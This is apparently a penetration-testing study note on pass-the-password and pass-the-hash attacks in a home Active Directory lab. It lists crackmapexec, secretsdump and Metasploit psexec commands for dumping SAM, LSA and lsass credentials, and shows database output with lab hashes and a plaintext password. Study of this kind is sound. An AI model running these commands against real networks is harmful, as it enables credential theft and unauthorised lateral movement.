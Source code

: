 # I. Pass Attacks Overview

Pass attacks are a type of cyber attack where an attacker steals the hashed password of a user in an attempt to authenticate as that user without needing to know the plaintext password.

So, if we manage to crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.

This attack can be conducted in a variety of ways, make sure all machines are turned on.

- **Pass the Password.** `crackmapexec smb <IP/CIDR> -u <user> -d <domain> -p <pass>`.

![passthepassword1.png](I%20Pass%20Attacks%20Overview%20aef10fbe72ca49f0838065b55cb1892f/passthepassword1.png)

- **Grab the Local Hashes with Metasploit.** `windows/smb/psexec` **OR using secretsdump.py.** `secretsdump.py <DOMAIN>/<user>:<pass>@DOMAIN IP`

**Pass the Hash.** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth`

![passthehash1.png](I%20Pass%20Attacks%20Overview%20aef10fbe72ca49f0838065b55cb1892f/passthehash1.png)

- **Dump valuable data** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --sam`.

![passthehash2.png](I%20Pass%20Attacks%20Overview%20aef10fbe72ca49f0838065b55cb1892f/passthehash2.png)

- E**numerate shares** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --shares`.

![passthehash3.png](I%20Pass%20Attacks%20Overview%20aef10fbe72ca49f0838065b55cb1892f/passthehash3.png)

- **Dump LSA (Local Security Authority).** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --lsa`.

![passthehash4.png](I%20Pass%20Attacks%20Overview%20aef10fbe72ca49f0838065b55cb1892f/passthehash4.png)

- **Check for different modules.** `crackmapexec smb -L`.
- **Dump lsass to get credentials in real-time.** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth -M lsassy`.
- **Access the Crackmapexec database (cmedb).**
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ cmedb 
    cmedb (default)(smb) > help
    
    Documented commands (type help <topic>):
    ========================================
    clear_database  creds  dpapi  exit  export  groups  help  hosts  shares  wcc
    
    Undocumented commands:
    ======================
    back  import
    
    cmedb (default)(smb) > hosts
    
    +Hosts---+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    | HostID | Admins    | IP        | Hostname     | Domain         | OS                       | SMBv1 | Signing | Spooler | Zerologon | PetitPotam |
    +--------+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    | 1      | 0 Cred(s) | 10.0.2.8  | STRAWHATS-PC | ONEPIECE.local | Windows 10.0 Build 17763 | False | True    | None    | None      | None       |
    | 2      | 2 Cred(s) | 10.0.2.11 | FRANKY       | ONEPIECE.local | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    | 3      | 0 Cred(s) | 10.0.2.2  | WIZZLE       | Wizzle         | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    | 4      | 2 Cred(s) | 10.0.2.10 | USOPP        | ONEPIECE.local | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    +--------+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    
    cmedb (default)(smb) > creds
    
    +Credentials---------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    | CredID | Admin On  | CredType  | Domain         | UserName           | Password                                                          |
    +--------+-----------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    | 1      | 2 Host(s) | plaintext | ONEPIECE.local | Franky             | Password1                                                         |
    | 2      | 1 Host(s) | hash      | USOPP          | administrator      | 7facdc498ed1680c4fd1448319a8c04f                                  |
    | 3      | 1 Host(s) | hash      | FRANKY         | administrator      | 7facdc498ed1680c4fd1448319a8c04f                                  |
    | 4      | 0 Host(s) | hash      | FRANKY         | Guest              | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 5      | 0 Host(s) | hash      | FRANKY         | DefaultAccount     | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 6      | 0 Host(s) | hash      | USOPP          | Guest              | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 7      | 0 Host(s) | hash      | FRANKY         | WDAGUtilityAccount | aad3b435b51404eeaad3b435b51404ee:4320ef599b0861e59eabb8b16ccf520f |
    | 8      | 0 Host(s) | hash      | USOPP          | DefaultAccount     | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 9      | 0 Host(s) | hash      | FRANKY         | Suuuper            | aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b |
    | 10     | 0 Host(s) | hash      | USOPP          | WDAGUtilityAccount | aad3b435b51404eeaad3b435b51404ee:296a91fa7ca4e02965019fa6b69765dd |
    | 11     | 0 Host(s) | hash      | USOPP          | Sogeking           | aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0 |
    +--------+-----------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    
    ```